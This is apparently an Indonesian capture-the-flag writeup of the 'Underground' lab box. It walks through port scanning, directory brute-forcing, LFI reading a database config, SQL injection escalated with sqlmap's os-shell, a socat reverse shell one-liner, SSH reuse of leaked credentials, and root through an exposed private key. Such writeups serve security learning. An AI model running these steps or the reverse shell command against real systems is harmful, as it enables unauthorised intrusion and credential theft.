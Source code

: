 ```yaml
---
title: "{SHL} Challenge Writeup - Underground "
date: 2020-06-21T00:25:20+07:00
tags: [ "Challenge", "SHL"]
draft: true
---
```


## About Challenge
![](/images/shl/underground/intro.png)

    Machine : Underground b0x
    Level   : ez to medium
    Goal    : root user and read the root.txt


## Reconnaissance & Scanning
Pertama kita akan memulainya dengan melakukan scanning terhadap target menggunakan nmap, dari hasil scanning kita mendapatkan informasi berupa port ataupun service yang berjalan dan dapat diakses dari external network. 


![](/images/shl/underground/1.png)

### Port 80 (HTTP Service)
Nmap memberikan informasi bahwa port port 80 dalam kondisi open, tanpa basa-basi langsung bruteforce directory menggunakan gobuster. 

![](/images/shl/underground/2.png)

Sembari menunggu gobuster berjalan, kita coba-coba secara manual beberapa file yang mungkin dapat bermanfaat, diantaranya :
-   .git/config
-   .svn
-   backup/
-   robots.txt
-   README.md
-   readme.txt

![](/images/shl/underground/3.png)

Ditemukan file readme.txt yang memebrikan informasi bahwa terdapat SVWA (SHL Vulnerability Web App) yang terinstall disana, jujur saya baru tau SHL membuat semacam  BWAPP/DVWA nya gitu. Penasaran dengan SVWA, saya coba search di forum SHL :
![](/images/shl/underground/4.png) 

Ternyata benar adanya, SVWA pernah diposting oleh @lastname dan dipublikasikan  di github miliknya [disini]. Setelah yakin bahwa informasi ini valid, saya coba akses directory /svwa pada target.

![](/images/shl/underground/5.png)
![](/images/shl/underground/6.png)

Yang namanya vulnerable app pasti banyak celahnya, namun dari info yang kita dapatkan tadi beberapa celah sudah ditutup sehingga kita harus mencoba cari lagi celah yang masih bisa dieksploitasi. Setelah mencoba register dan berhasil login,  ditemukan beberapa kemungkinan celah yang terlihat jelas didepan mata :
-   Unrestricted file upload
-   LFI
-   SQL Injection




### Unrestricted file upload

File upload is becoming a more and more essential part of any application, where the user is able to upload their photo, their CV, or a video showcasing a project they are working on. The application should be able to fend off bogus and malicious files in a way to keep the application and the users safe. (OWASP)

![](/images/shl/underground/7.png)
 

Kita coba upload shell, namun nampaknya sudah dipatch oleh admin sehingga kita tidak dapat mengunggah web shell kita, berikut response body ketika kita coba upload file berekstensi php

![](/images/shl/underground/8.png)

### LFI (Local File Inclusion)
Local File Inclusion (LFI) allows an attacker to include files on a server through the web browser. This vulnerability exists when a web application includes a file without correctly sanitising the input, allowing and attacker to manipulate the input and inject path traversal characters and include other files from the web server. (OWASP)

![](/images/shl/underground/9.png)
![](/images/shl/underground/10.png)

Dari celah ini kita dapat melihat file-file yang ada, termasuk file konfigurasi database aplikasi yang berada pada directory db/koneksi.php, walaupun kita belum tau untuk apa nantinya. Seharusnya kita juga bisa memanfaatkan LFI ini untuk gaining acces ke system dengan memanfaatkan access.log nya. ^_^

![](/images/shl/underground/11.png)

### Sql Injection
A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands. (OWASP)

![](/images/shl/underground/12.png)

Celah sql injection terjadi di parameter id pada file read.php, jika kita memberikan single quote (‘) pada parameter id maka akan terjadi error, pada kasus ini errornya adalah text post dari id 1 tidak ditampilkan oleh aplikasi.


## Gaining Access

Kita coba untuk gaining access from LFI to RCE memanfaatkan access log yang ada, namun besarnya kapasitas file access.log (efek bruteforce mungkin) membuat saya sedikit frustasi untuk mengaksesnya, lalu saya tinggalkan. 

### Gaining Access Through Sql Injection To RCE
Kita coba untuk gaining access dari celah SQL Injection dengan tools sqlmap –os-shell, dan ternyata gagal mendapatkan shell, rupanya aplikasi ini tidak terdapat pada common document root yang biasa dipakai mwehehe. 

Kenapa kita tidak memanfaatkan celah LFI untuk mencari tahu document root nya saja? Alhasil saya menemukan document root nya di error.log nginx, lalu mengulangi langkah gaining access menggunakan sqlmap dengan custom directory yang telah ditemukan. 

![](/images/shl/underground/13.png)

![](/images/shl/underground/14.png)
Berhasil mendapatkan remote shell via sqlmap –os-shell, dan berhasil membuat webshell minimalis yang lebih indah dilihat daripada os-shell milik sqlmap. 

![](/images/shl/underground/15.png)

### Reverse Shell

Lalu dilakukan percobaan reverse shell, beberapa kali percobaan gagal namun pada akhirnya reverse shell berhasil dilakukan menggunakan socat.

Command : socat tcp-connect:IP Address:Port system:/bin/sh

![](/images/shl/underground/16.png)

![](/images/shl/underground/17.png)

Melihat shell yang digunakan sekarang menunjukkan bahwa kita sedang menggunakan shell nologin yang artinya dia bisa menjalankan shell, tapi tidak dianggap sevagai user login [man nologin](https://man7.org/linux/man-pages/man8/nologin.8.html). Kenapa ngga sadar dari tadi pas load /etc/passwd saat percobaan LFI yak? Monmap namanya juga khilaf… rasanya ada yang kurang lengkap jika tidak melakukan backconnect haha...

### Gaining Access Through Database Credential
Melihat proses yang sedang berjalan, menunjukkan bahwa terdapat user human. Wait? Seperti tidak asing, pada celah LFI tadi sempat melihat credential database dengan user human, kenapa tidak coba login ssh menggunakan credential ini saja? Siapa tau beruntung yak an? Untuk memastikan coba kita check sekali lagi file koneksi.php nya

![](/images/shl/underground/18.png)

Mengingat bahwa port 22 (SSH) nya terbuka, kita coba langsung ssh ke system target, namun ternyata akses melalui port 22 ini memerlukan ssh private key. 

![](/images/shl/underground/19.png)

Sedikit perhatian pada port 2222, ternyata ini adalah port SSH yang lain. Dilakukan percobaan login user human menggunakan credential mysql pada port 2222 dan berhasil. 

![](/images/shl/underground/20.png)

![](/images/shl/underground/21.png)

## Privilege Escalation Get Root.txt

Setelah melakukan enumerasi, didapatkan folder rootsshkeybackup yang diduga berisi ssh private key milik user root. Dan benar saja didalamnya terdapat private key dan public key milik user root

![](/images/shl/underground/22.png)

Untung saja file-file ini tidak memiliki permission khusus untuk mengaksesnya, jadi tinggal menggunakan key ini saja untuk login ke user root.

![](/images/shl/underground/23.png) 

Terimakasih sudah membaca :)

## Reference
- [Reverse Shell Cheat Sheet
](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [SQL Injection
](https://owasp.org/www-community/attacks/SQL_Injection)
- [Local File Inclusion (LFI)](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601)
- [Unrestricted File Upload
](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
